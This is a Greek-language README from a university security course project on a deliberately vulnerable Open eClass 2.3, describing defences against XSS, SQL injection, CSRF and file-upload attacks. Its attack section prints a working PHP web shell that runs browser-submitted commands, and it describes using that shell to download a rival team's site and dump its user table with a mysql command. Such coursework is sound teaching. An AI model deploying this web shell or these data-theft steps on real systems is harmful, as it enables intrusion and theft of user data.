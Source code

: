 ## Open eClass 2.3

Το repository αυτό περιέχει μια __παλιά και μη ασφαλή__ έκδοση του eclass.
Προορίζεται για χρήση στα πλαίσια του μαθήματος
[Προστασία & Ασφάλεια Υπολογιστικών Συστημάτων (ΥΣ13)](https://crypto.di.uoa.gr/csec/), __μην τη
χρησιμοποιήσετε για κάνενα άλλο σκοπό__.


## 2020 Project 1

Εκφώνηση: https://crypto.di.uoa.gr/csec/assets/projects/project1.pdf


### Μέλη ομάδας

- 1115201300202, Κώστας Χατζόπουλος
- 1115201600141, Βασίλειος Πουλόπουλος

### Report

## Όνομα ομάδας: hackerz

## Άμυνα

### Cross Site Scripting
Tο **openeclass** δεν ήταν σχεδόν καθόλου προστατευμένο από επιθέσεις αυτού του τύπου. Χρησιμοποιήσαμε την βιβλιοθήκη **htmlpurifier** (Η **htmlpurifier** εντοπίζει τον κακόβουλο κώδικα και τον αφαιρεί.) για να προστατέψουμε τις εισόδους απο link που αποθηκεύονται στην server μεταβλητή **php_self** αλλά και για τις μεταβλητές που προέρχονται από είσοδο (**GET**/**POST**) και τυπώνεται το περιεχόμενό τους στον ιστότοπο. Τα δεδομένα που έρχονται από είσοδο του χρήστη και αποθηκεύονται στη βάση, πλέον δεν περιέχουν τον κακόβουλο κώδικα.

### Sql Injection
Το **openeclass** δεν είχε σε κανένα σημείο **prepared statements** αλλά σε κάποια queries γινόταν χρήση των συναρτήσεων **mysql_real_escape_string()**, **autoquote()**, **addslashes()** και **intval()** τα οποία δεν προστατεύουν πλήρως τον ιστότοπο ενώ σε κάποια άλλα δεν υπήρχε καθόλου προστασία. Χρησιμοποιούμε την συνάρτηση **intval()** όταν στο query υπήρχαν  μόνο ακέραιοι αριθμοί και όταν υπήρχαν και strings αντικαταστήσαμε τα αρχικά queries με **prepared statements**.



### Cross-Site Request Forgery

Στο openeclass δεν υπήρχε καμία προστασία για επιθέσεις αυτού του τύπου. Για να το διορθώσουμε βάλαμε σε κάθε ενέργεια που θα μπορούσε να γίνει κάτι σημαντικό (π.χ. διαγραφές, εισαγωγές, ενημερώσεις) ένα **random token** το οποίο ελέγχεται όταν γινει η ενέργεια μέσω της μεταβλητής **$_SESSION['form_token']** που σημαίνει ότι πριν τυπωθεί η συγκεκριμένη ενέργεια αποθηκεύεται το token. Αν το token είναι διαφορετικό η ενέργεια δεν γίνεται και ο χρήστης ανακατευθύνεται στην σελίδα που ήταν.  

### Remote File Injection

Για τις επιθέσεις RFI σε σημεία που μπορούσαν να ανέβουν αρχεία (**Ανταλλαγή Αρχείων**, **Εργασίες**) ο επιτιθέμενος μπορούσε να ανοίξει το φάκελο στον οποίο αποθηκεύονταν τα αρχεία. Με αυτόν τον τρόπο θα μπορούσε να ανεβάσει κάποιο malicious script και πατώντας πάνω στο αρχείο του να το τρέξει. Για να προστατευτεί το site όταν ανεβαίνουν αρχεία το όνομα άλλαζε και γινόταν random. Αυτό δεν βοηθάει πολύ γιατί εφόσον ο επιτιθέμενος έχει πρόσβαση στο φάκελο μπορεί με διάφορους τρόπους να βρει το αρχείο του (π.χ. με το να μπει κατευθείαν αφού το ανεβάσει στο φάκελο και να πατήσει "last modified"). Για να αποτρέψουμε τις επιθέσεις RFI βάλαμε την εντολή **#Deny from All** σε **.htaccess** αρχεία σε αυτούς τους φακέλους που απαγορεύουν την πρόσβαση σε αυτούς μέσω του site.  Έτσι αφού δεν υπάρχει πρόσβαση στο φάκελο και τα ονόματα είναι random, ο επιτιθέμενος δεν έχει τρόπο να καταλάβει ποιό είναι το αρχείο του και να μπει σε αυτό ώστε να τρέξει. Επιπλέον, ακόμα και να μπορούσε να καταλάβει πως λέγεται το αρχείο του, δεν θα έτρεχε γιατί στο **.htaccess** εχουμε προσθέσει την εντολή **#php_flag engine off** οπότε τα .php αρχεία δεν μπορούν να τρέξουν.

## Επίθεση

### Cross Site Scripting

### Sql Injection



### Cross-Site Request Forgery

### Remote File Injection
Το αντίπαλο site δεν είχε ασφάλεια για RFI οπότε ανεβασαμε στην ανταλλαγή αρχείων διάφορα .php scripts και μάθαμε την ιεραρχία των φακέλων. Στη συνέχεια αλλάξαμε το αρχείο **tool_content.css** και το **theme.html** και προσθέσαμε το **index.html** ωστε να αλλάξουμε την αρχική σελίδα. Αυτά τα αρχεία τα αλλάξαμε έχοντας φτιάξει τις version που θέλαμε, τις ανεβάσαμε στο puppies και μετά ανεβάζαμε scripts με wget και τις βάζαμε στο site. Μετά φτιάξαμε το παρακάτω script:

    <?php
    $input = '';
    if (isset($_POST['input'])) {
	    $input = $_POST['input'];
	    ?>
	    <form  method="post"  action="<?PHP $_SERVER[PHP_SELF] ?>">
	    <textarea  name="input"  rows="4"  cols="50"  value="<?php $input ?>"></textarea>
	    <input  type="submit"  name="submit"/>
	    </form>
	    <?php
	    echo "<pre style='border: 1px solid black; padding: 3px'>$input</pre>";
	    $output = shell_exec($input);
	    echo "<pre style='border: 1px solid black; padding: 3px'>$output</pre>";
    } else {
	    ?>
	    <form  method="post"  action="<?PHP $_SERVER[PHP_SELF] ?>">
	    <textarea  name="input"  rows="4"  cols="50"  value="<?php $input ?>"></textarea>
	    <input  type="submit"  name="submit"/>
	    </form>
	    <?php
    }
    ?>

 το οποίο τρέχει shell commands κατευθείαν απ' το browser μέσω φόρμας και το ανεβάσαμε. Έτσι μπορούσαμε να κάνουμε πρακτικά οτιδήποτε στο site εύκολα και χωρίς να ανεβάζουμε πολλά scripts. Με τη βοήθεια του script αυτού τρέξαμε εντολές ώστε να κάνουμε compress ολο το site, το αποθηκεύσαμε στο φάκελο στον οποίο βρισκόμασταν (εκεί που είχαν ανέβει τα scripts) και κατεβάσαμε από εκεί τον κώδικα στους υπολογιστές μας. Τότε από το config.php μάθαμε τον κωδικό της βάσης και χρησιμοποιήσαμε στο script μας την εντολή `mysql -u root --password="*********" --database=eclass --execute="SELECT * FROM user;"` οπότε αυτός ήταν ένας τρόπος να μάθουμε τα στοιχεία των χρηστών.



